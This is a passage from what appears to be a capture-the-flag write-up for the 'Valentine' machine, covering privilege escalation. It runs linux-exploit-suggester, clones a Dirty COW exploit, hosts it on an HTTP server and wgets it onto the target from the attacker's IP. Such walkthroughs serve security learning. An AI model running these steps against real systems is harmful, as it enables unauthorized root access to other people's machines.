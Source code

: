 From there we can give it execute permissions and run it:

```bash
chmod +x linux-exploit-suggester-2.pl
./linux-exploit-suggester-2.pl
```

![Untitled](Valentine%20951cc2e3a0a847249981b494aef933be/Untitled%2020.png)

From the information, we can attempt to run dirty-cow on it.

To use dirty cow, we first have to clone script and set up http server (if it was closed):

```bash
git clone https://github.com/FireFart/dirtycow.git
```

```bash
#HTTP server if it was already off
python3 -m http.server 9000
```

On Target machine, wget the script, compile it, and run

```bash
wget http://10.10.17.90:9000/dirty.c
```

![Untitled](Valentine%20951cc2e3a0a847249981b494aef933be/Untitled%2021.png)
